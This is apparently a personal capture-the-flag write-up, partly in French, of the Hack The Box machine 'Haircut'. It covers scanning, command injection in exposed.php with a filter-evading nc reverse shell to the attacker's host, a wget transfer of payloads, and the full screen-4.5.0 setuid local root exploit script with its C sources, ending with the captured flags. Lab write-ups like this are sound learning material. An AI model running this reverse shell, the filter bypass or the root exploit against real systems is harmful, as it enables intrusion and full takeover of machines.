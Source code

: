 # HTB - Haircut  10.10.10.24

- Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
- App cmd exploit-> nc
- suid on screen-4.5.0 + screen-4.5.0 exploit


# nmap

```
# nmap -A 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-01 11:50 CEST
Nmap scan report for 10.10.10.24
Host is up (0.032s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```


nginx/1.10.0 (Ubuntu)

# gobuster

dirb, nikto give nothing

Install gobuster and runit
```
wget https://github.com/OJ/gobuster/releases/download/v3.0.1/gobuster-linux-amd64.7z
7z x gobuster-linux-amd64.7z
cd gobuster-linux-amd64.7z
./gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.16.27.142  -l -x html,php,js,txt
./gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.24 -l -x html,php,txt
/index.html (Status: 200) [Size: 144]
/uploads (Status: 301) [Size: 194]
/test.html (Status: 200) [Size: 223]
/hair.html (Status: 200) [Size: 141]
/exposed.php (Status: 200) [Size: 446]
```
![](screenshot/haircut_index.png)
![](screenshot/haircut_test.png)


# exposed.php

Preview of a web page
- no access to internet
- acces to Kali http server
- Bad hostname -> error msg with curl : curl: (6) Could not resolve host: localhoast

![](screenshot/haircut_exposed.png)


Try

`curl http://10.10.14.30/bob`  -> received in http serve log
`nc 10.10.14.30 4444 -e /bin/bash`   -> nc filtered
`n\c 10.10.14.30 4444 -e /bin/bash`  -> bash filtered
`n\c 10.10.14.30 4444 -e /bin/ba\sh`  -> OK

```
# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.24: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.24] 51388

whoami
www-data

pwd
/var/www/html

No python, use python3
python3 -c 'import pty; pty.spawn("/bin/bash")'  

Ctrl-Z

# In Kali
$ stty raw -echo
$ fg
```

# get User
```
cat Desktop/user.txt
 0b0da2af50e9ab7c81a6ec2c562afeae
pwd
/home/maria
```

# get root

```
uname -a
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

$ find / -perm -4000 2>/dev/null | xargs ls -al
-rwsr-xr-x 1 root   root       1588648 May 19  2017 /usr/bin/screen-4.5.0
www-data@haircut:~/html$ 
```

screen-4.5.0 permet d'écrire dans un ficheir arbitraire.
https://www.exploit-db.com/raw/41154

All in one script
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

Ne passe pas : pb de compilation, il faut le compiler à la main sur kali
cat libhax.c
```
// Set s bit on /tmp/rootshell
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
gcc -fPIC -shared -ldl -o libhax.so libhax.c


cat /tmp/rootshell.c
```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
gcc -o rootshell rootshell.c

Transfert compiled 64 bits files
python -m SimpleHTTPServer
wget 10.10.14.30:8000/libhax.so
wget 10.10.14.30:8000/rootshell

On créé /etc/
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!


Triggering, screen itself is setuid, so......
```
screen -ls  
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
There is a screen on:
	2787.pts-0.haircut	(Attached)
1 Socket in /tmp/screens/S-www-data.


ls -al /tmp
total 136
drwxrwxrwt 10 root     root      4096 Sep  1 17:42 .
drwxr-xr-x 23 root     root      4096 May 16  2017 ..
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .ICE-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .Test-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .X11-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .XIM-unix
drwxrwxrwt  2 root     root      4096 Sep  1 11:39 .font-unix
-rwxr-xr-x  1 www-data www-data  1152 Sep  1 17:18 41154.sh
-rw-r--r--  1 www-data www-data   252 Sep  1 17:20 libhax.c
-rw-r--r--  1 www-data www-data 16136 Sep  1  2019 libhax.so
-rwxr-xr-x  1 www-data www-data 45652 Sep  1 15:44 linenum.sh
-rwsr-xr-x  1 root     root     16824 Sep  1  2019 rootshell
-rw-r--r--  1 www-data www-data   134 Sep  1 17:20 rootshell.c
drwxr-xr-x  3 root     www-data  4096 Sep  1 17:09 screens
drwx------  3 root     root      4096 Sep  1 11:39 systemd-private-1d6837ef12c04ec090043988a431440a-systemd-timesyncd.service-T5O7Br
drwx------  2 root     root      4096 Sep  1 11:39 vmware-root
www-data@haircut:/etc$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haircut:/etc$ /tmp
bash: /tmp: Is a directory
www-data@haircut:/etc$ /tmp/rootshell 
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/flag.txt
cat: /root/flag.txt: No such file or directory
# cd /root
# ls
root.txt
# cat root.txt
4cfa26d84b2220826a07f0697dc72151
# 

```

